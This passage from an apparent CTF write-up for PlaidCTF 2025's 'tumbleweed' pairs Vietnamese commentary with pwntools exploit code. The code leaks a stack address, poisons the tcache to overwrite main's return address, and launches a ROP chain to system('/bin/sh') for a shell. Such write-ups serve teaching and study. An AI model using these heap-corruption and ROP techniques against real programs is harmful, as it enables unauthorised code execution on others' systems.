 ```python
alloc0(9, 16, b'')
inspect2(9)
stack = u64(con.recv(8))

log.success('Stack leak: ' + hex(stack))
```

4, Trong quá trình debug thấy địa chỉ stack leak được cao hơn địa chỉ chứa return addr trong 1 khoảng ngẫu nhiên nhất định (0x92, 0xa2,..., 0x122). Vẫn sử dụng các thao tác ghi tuỳ ý trên, ghi đè return address của main, trigger lỗi để chương trình return và lấy shell (tỉ lệ ra shell là khoảng 1/10)

```python
### stage 3: overwrite ret addr
POP_RDI = 0x000000000002a3e5
RET = 0x0000000001002801

for i in range(2,9):
    alloc0(i, 40, b'')
alloc0(9, 40, b'')
alloc0(10, 40, b'')

for i in range(2,9):
    resize3(i, 0)
resize3(9, 0)
resize3(10, 0)
resize3(9, 0)

for i in range(2,9):
    alloc0(i, 40, b'')

saved_rip = stack - (randint(0x9,0x12)*0x10 + 2)
alloc0(9, 40, p64(saved_rip - 8 ^ (heap_base + 0x580) >> 12))
alloc0(10, 40, b'')
alloc0(9, 40, b'')
log.success('Try saved rip: ' + hex(saved_rip))
alloc0(9, 40, p64(1) + p64(RET) + p64(libc.address + POP_RDI) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system']))

con.interactive()
```

![Solved](/assets/images/2025-04-10-plaid2025-tumbleweed/Screenshot%202025-04-10%20010345.png){:class="img-responsive"}
